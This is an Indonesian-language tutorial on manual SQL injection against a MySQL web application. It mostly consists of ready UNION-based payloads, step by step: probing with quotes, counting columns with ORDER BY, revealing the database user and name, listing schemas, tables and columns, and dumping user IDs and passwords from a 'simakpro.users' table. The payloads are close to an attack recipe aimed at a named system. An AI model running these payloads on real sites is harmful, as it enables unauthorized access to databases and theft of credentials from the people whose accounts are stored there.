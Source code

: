 ## Langkah-langkah melakukan SQL Injection secara manual
* Mencari tahu apakah inputan memiliki vuln untuk dilakukan sql injection dengan memasukan karakter `' atau "`
* Apabila terdapat vuln, maka masukan script Cth: ' ORDER By 2# <- Script ini berguna untuk mengetahui jumlah tables dalam database.
* Selanjutnya jika sudah diketahui banyaknya tables, makan jalankan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10 #
```
* Selanjutnya, untuk mengetahui user dan nama database yang digunakan menggunakan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,user(),5,6,7,database(),9,10 #
```

* Selanjutnya untuk mengetahui list database yang tersimpan pada MYSQL, menggunakan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,schema_name,5,6,7,8,9,10 FROM information_schema.schemata #
```

* Selanjutnya, untuk mendapatkan list tables dari database tertentu, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,table_name,5,6,7,8,9,10 FROM information_schema.tables WHERE table_schema = 'simakpro' #
```

* Selanjutnya, untuk mendapatkan informasi yang lebih spesifik kolom-kolom dari sebuah table, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,column_name,5,6,7,column_type,9,10 FROM information_schema.columns WHERE table_schema = 'simakpro'  AND table_name = 'users' #
```

* Terakhir, untuk mendapatkan record data dalam table yang dipilih, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,CONCAT(usrid,' - ',passwd,' - ',level, ' - ', type_user),5,6,7,8,9,10 FROM simakpro.users #
```
